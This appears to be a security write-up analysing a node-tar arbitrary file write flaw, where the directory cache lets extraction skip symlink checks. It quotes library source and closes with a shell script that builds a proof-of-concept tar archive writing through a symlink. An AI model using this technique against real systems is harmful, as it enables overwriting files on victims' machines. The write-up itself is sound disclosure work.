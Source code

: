 In order to prevent overwriting arbitrary files on the file system, `node-tar` will check to make sure that the folders it iterates over are not symlinks. Otherwise, you could use the symlink to traverse the file system. For example, create a symlink `symlink` -> `/path/to` and extract a file to `symlink/overwrite`. 

Interestingly, this check is [done in mkdir.js](https://github.com/npm/node-tar/blob/main/lib/mkdir.js), when creating the required parent directories for any given path. 

```javascript
      } else if (st.isSymbolicLink())
        return cb(new SymlinkError(part, part + '/' + parts.join('/')))
```

`node-tar` also maintains a cache of the directories already created as a performance optimization. This has the important implication of skipping the symlink checks for folders that exist in the directory cache. 

```javascript
  if (cache && cache.get(dir) === true)
    return done()
```

In other words, the security of `node-tar` depends on the accuracy of the directory cache. If we can fake an entry or otherwise desynchronize the cache, we can extract through a symlink and write to arbitrary files on the filesystem. 

Unfortunately, these vulnerabilities do not affect the npm cli, because npm's extraction [explicitly filters out](https://github.com/npm/pacote/blob/latest/lib/fetcher.js) symlinks and hardlinks. 

```javascript
      filter: (name, entry) => {
        if (/Link$/.test(entry.type))
          return false
```

### Zero

Initially, the directory cache did not purge entries on folder deletion. This made it pretty easy to bypass. 

For our proof of concept, we used three files: 

1. MKDIR `poison`
2. SYMLINK `poison` -> `/target/path`
3. FILE `poison/overwrite`

This payload can be generated from a bash script with: 

```sh
#!/bin/sh

mkdir x
tar cf poc.tar x
rmdir x
ln -s /tmp x
echo 'arbitrary file write in node-tar' > x/pwned
tar rf poc.tar x x/pwned
rm x/pwned x
```

